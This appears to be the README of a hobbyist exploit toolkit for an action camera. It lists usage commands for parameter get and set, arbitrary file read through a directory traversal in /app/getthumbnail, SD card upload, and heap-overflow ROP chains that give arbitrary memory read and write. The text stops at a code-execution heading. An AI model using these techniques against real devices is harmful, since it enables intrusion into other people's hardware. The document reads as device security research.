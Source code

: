 ```
python3 action_cam_hacking.py get_param language
```

### `set_param`

Performs a HTTP GET request to `/app/setparamvalue`, which sets the specified parameter to be the specified value.

```
python3 action_cam_hacking.py set_param language 4
```

### `file_read`

Uses a directory traversal in `/app/getthumbnail` to fetch arbitrary files from the device.

```
python3 action_cam_hacking.py file_read /app/car_recorder.app
```

### `file_write_on_sd`

Uses the `/upload` endpoint to upload specified file to `/mnt/sdcard`.

```
python3 action_cam_hacking.py file_write test.bin
```

### `arb_read`

Exploits heap overflow in `/mnt` handler to execute a ROP-chain to read specified address (`setparamvalue` used to get address in, `getparamvalue` used to get result out).

```
python3 action_cam_hacking.py arb_read 0xc0008000
```

### `arb_write`

Exploits heap overflow in `/mnt` handler to execute a ROP-chain to write specified value into specified address (`setparamvalue` used to get address and value in).

```
python3 action_cam_hacking.py arb_write c0a2fae0 12345678
```

*Note:* above will write 0x12345678, value is hexadecimal.

### `arb_write_safe`

Same as above, but uses a slightly different method to exploit the heap overflow (named safe as I thought this approach would be more reliable, turns out that isn't the case :( )

```
python3 action_cam_hacking.py arb_write_safe c0a2fae0 12345678
```

### `arb_code_exec`
